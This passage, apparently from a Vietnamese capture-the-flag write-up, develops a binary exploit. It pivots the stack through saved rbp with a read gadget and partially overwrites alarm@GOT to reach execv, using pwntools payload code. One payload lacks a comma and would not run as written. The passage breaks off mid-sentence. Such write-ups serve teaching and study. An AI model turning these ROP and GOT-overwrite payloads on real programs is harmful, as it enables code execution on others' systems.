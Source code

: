 ## Exploit Development

Như vậy với ý tưởng như trên ta có thể sử dụng `read gadget` để làm cho chương trình thực thi lại phần chức năng đó thêm một lần nữa, và với việc ta có thể kiểm soát được `saved rbp` ta sẽ làm cho nó viết ở bất cứ nơi đâu mà ta muốn. Và những gì mình muốn sẽ là:

- Overwrite `alarm@GOT` -> `execv`
- Setup các arugments cho `execv`

### Overwrite `alarm@GOT`

Vậy payload ban đầu của ta sẽ là
```py
    pop_rdi = 0x401247
    read_gadget = 0x401249
    rw_section = 0x404100

    pl = flat(
        b'A' * 0x20,
        rw_section + 0x20,              # saved rbp 1
        read_gadget                     # saved rip 1
    )

    input("1st")
    sleep(0.5)
    s(pl)
```

Payload này sẽ ghi dữ liệu của lần nhập tiếp theo vào `rw_section`, và ở lần nhập tiếp theo ta sẽ thực hiện việc ghi đè 2 bytes cuối của địa chỉ chứa trong `alarm@GOT`

```py
    pl = flat(
        b'B' * 0x20
        exe.got.alarm + 0x20,          # saved rbp 2
        read_gadget                    # saved rip 2
    )

    input("2nd")
    sleep(0.5)
    s(pl)

    input("3rd")
    sleep(0.5)
    s(p16(0xd1c0))
```

Với lúc này payload của ta sẽ ghi đè 2 bytes thành `0xd1c0` tức là `execv`, và để ý sau khi nó thực thi xong và return
